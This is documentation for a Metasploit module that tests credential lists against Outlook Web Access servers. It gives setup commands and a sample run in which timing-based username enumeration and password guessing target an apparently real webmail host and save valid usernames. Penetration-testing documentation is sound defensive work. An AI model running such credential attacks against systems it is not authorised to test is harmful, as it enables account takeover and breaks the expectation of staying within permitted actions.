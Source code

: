 This module tests credentials on OWA 2003, 2007, 2010, 2013, and 2016 servers.

NOTE: This module assumes that login attempts that take a long time (>1 sec) to
return are using a valid domain username. This methodology does not work when
passing a full email address (user@domain.com). Full email addresses will not
be saved as potentially valid usernames unless we get a successful login.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/owa_login```
2. Do: ```set RHOSTS [IP]```
3. Configure a user and password list by setting either `USERNAME`, `PASSWORD`, `USER_FILE`, or `PASS_FILE`.
4. Do: ```run```

## Scenarios

```
msf auxiliary(scanner/http/owa_login) > run

[*] webmail.hostingcloudapp.com:443 OWA - Testing version OWA_2013
[+] Found target domain: HOSTINGCLOUDAPP
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.267791 'HOSTINGCLOUDAPP\administrator' : 'password': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.273841 'HOSTINGCLOUDAPP\administrator' : 'password1': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.22
[+] server type: EXCH2016MBX01
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.270796 'HOSTINGCLOUDAPP\administrator' : 'fido': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.22
[+] server type: EXCH2016MBX01
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.046935 'HOSTINGCLOUDAPP\johndoe' : 'password' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.073391 'HOSTINGCLOUDAPP\johndoe' : 'password1' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.038717 'HOSTINGCLOUDAPP\johndoe' : 'fido' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.289186 'HOSTINGCLOUDAPP\bob' : 'password': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.270616 'HOSTINGCLOUDAPP\bob' : 'password1': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.275251 'HOSTINGCLOUDAPP\bob' : 'fido': SAVING TO CREDS
[*] Auxiliary module execution completed

```
